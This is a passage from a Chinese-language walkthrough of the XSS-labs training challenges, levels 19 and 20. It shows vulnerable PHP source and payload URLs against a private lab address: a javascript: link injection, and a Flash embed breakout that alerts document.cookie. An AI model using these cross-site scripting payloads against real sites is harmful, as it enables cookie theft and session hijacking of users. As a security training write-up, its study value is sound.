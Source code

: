 

```js
?arg01=version&arg02=b
```

就是

```js
version=b
```

**a标签构造**链接

### payload

```js
http://192.168.70.10:8084/level19.php?arg01=version&arg02=<a%20href="javascript:alert(%27xss%27)">111</a>
```

## level20 (做不了)

### 访问

http://192.168.70.10:8084/level20.php?arg01=a&arg02=b

![image-20240820144228133](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240820144228133.png)

### 源码

```php+HTML
<body>
<h1 align=center>欢迎来到level20</h1>
<?php
ini_set("display_errors", 0);
echo '<embed src="xsf04.swf?'.htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"]).'" width=100% heigth=100%>';
?>
</body>
```

### payload

```js
http://192.168.70.10:8084/level20.php?arg01=id&arg02=\"))}catch(e){}if(!self.a)self.a=!alert(document.cookie)*//&width&height*
```

结束...